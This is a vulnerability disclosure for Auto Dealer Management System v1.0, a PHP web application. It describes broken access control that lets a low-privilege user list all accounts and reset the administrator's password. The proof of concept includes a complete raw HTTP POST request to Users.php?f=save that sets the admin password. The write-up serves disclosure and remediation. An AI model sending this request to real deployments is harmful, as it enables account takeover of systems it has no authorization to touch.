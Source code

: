 # Auto Dealer Management System - Broken Access Control leads to compromise of all application accounts by accessing the ?page=user/list with low privileged user account

### Date: 
> 18 February 2023
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Auto Dealer Management System](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### Broken Authentication:
> Broken Access Control is a type of security vulnerability that occurs when a web application fails to properly restrict users' access to certain resources and functionality. Access control is the process of ensuring that users are authorized to access only the resources and functionality that they are supposed to. Broken Access Control can occur due to poor implementation of access controls in the application, failure to validate input, or insufficient testing and review.

### Affected Page:
> list.php , manage_user.php

> On these page, application isn't verifying the authorization mechanism. Due to that, all the parameters are vulnerable to broken access control and low privilege user could view the list of user's and change any user password to access it.

### Description:
> Broken access control allows low privilege attacker to change password of all application users

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: ?page=user/list
2. Click on Action and Edit the password of Admin

![image](https://user-images.githubusercontent.com/123810418/219884701-0f1feb4f-6c8a-4299-b510-1762461910ee.png)

4. Update the Password and Submit

5. Request:
```
POST /adms/classes/Users.php?f=save HTTP/1.1
Host: localhost
Content-Length: 877
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfODLB5j55MvB5pGU
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/adms/admin/?page=user/manage_user&id=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c1ig2qf0q44toal7cqbqvikli5
Connection: close

------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="firstname"

Adminstrator
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="middlename"


------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="lastname"

Admin
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="password"

admin123
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="type"

1
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryfODLB5j55MvB5pGU--

```
6. Successful exploit screenshots are below (without cookie parameter)
![image](https://user-images.githubusercontent.com/123810418/219884923-5283fca6-d509-4c48-9db0-f61ea6dbb352.png)

7. Vulnerable Code Snippets:

![image](https://user-images.githubusercontent.com/123810418/219884994-e74d7d48-4d45-4135-9a38-45e26c65434b.png)

![image](https://user-images.githubusercontent.com/123810418/219885023-a76afbe0-88f0-4aaa-89cd-1e541e511427.png)

### Recommendation:
> Whoever uses this CMS, should update the authorization mechanism on top of the  list.php , manage_user.php pages as per requirement to avoid a Broken Access Control attack:
